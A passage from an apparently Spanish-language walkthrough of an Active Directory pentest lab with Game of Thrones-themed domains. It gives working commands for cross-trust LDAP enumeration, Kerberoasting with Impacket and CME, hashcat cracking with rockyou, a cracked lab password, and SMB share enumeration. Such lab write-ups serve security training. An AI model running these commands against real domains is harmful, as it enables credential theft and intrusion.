

Con **LDAP query** podemos solicitar los usuarios del **otro dominio** porque existe un **trust**.

En **sevenkingdoms.local**:

```
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```

## Kerberoasting

En un **Active Directory**, muy a menudo veremos usuarios con un **SPN** configurado.

Vamos a encontrarlos usando **Impacket**.

```bash
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```



Todos los **hashes** se almacenarán en el archivo llamado **kerberoasting.hashes**.



También podríamos hacerlo con **CME** usando el siguiente comando:

```
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

Ahora, vamos a intentar **romper los hashes**:

```
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

Rápidamente obtenemos un resultado usando **rockyou**:



Y encontramos otro usuario: **north/`jon.snow`:`iknownothing`**.

## share enum

```bash
nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```



